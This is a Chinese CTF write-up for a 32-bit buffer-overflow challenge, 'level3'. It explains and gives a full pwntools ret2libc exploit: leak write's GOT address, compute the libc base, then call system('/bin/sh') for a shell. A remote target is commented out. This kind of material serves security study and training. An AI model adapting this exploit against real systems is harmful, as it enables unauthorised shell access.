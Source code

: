 # level3 - 远程libc库已知

先用write函数打印出write在got.plt记录的真实地址，回到main函数开头，  

然后用write真实地址减去libc中write的偏移量，得到libc的基址，然后再用libc基址加上system函数和'/bin/sh'的偏移量，等于system和字符串在进程中的真实地址。  

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./level3')
#p = pwn.remote('220.249.52.133', 48664)

e = pwn.ELF('./level3')
main_addr = pwn.p32(0x8048484)
write_plt = pwn.p32(e.plt['write'])
write_got = pwn.p32(e.got['write'])

payload1 = b'A' * 0x88 + b'B' * 4 + write_plt + main_addr + pwn.p32(1) + write_got + pwn.p32(4)     # 执行完write函数后回到进程开始处
p.sendlineafter(b'Input:\n', payload1)

write_addr = pwn.u32(p.recv()[0:4])
#libc = pwn.ELF('./libc_32.so.6')        # Remote Libc version
libc = pwn.ELF('/lib32/libc.so.6')     # Local Libc version
libc_addr = write_addr - libc.sym['write']      # libc基址 = write真实地址 - write在libc中的偏移量
system_addr = pwn.p32(libc_addr + libc.sym['system'])   # system真实地址 = libc基址 + system在libc中的偏移量
sh_addr = pwn.p32(libc_addr + next(libc.search(b'/bin/sh')))    # '/bin/sh'真实地址 = libc基址 + 字符串在libc中的偏移量

payload2 = b'A' * 0x88 + b'B' * 4 + system_addr + b'C' * 4 + sh_addr
p.sendline(payload2)

p.interactive()
```
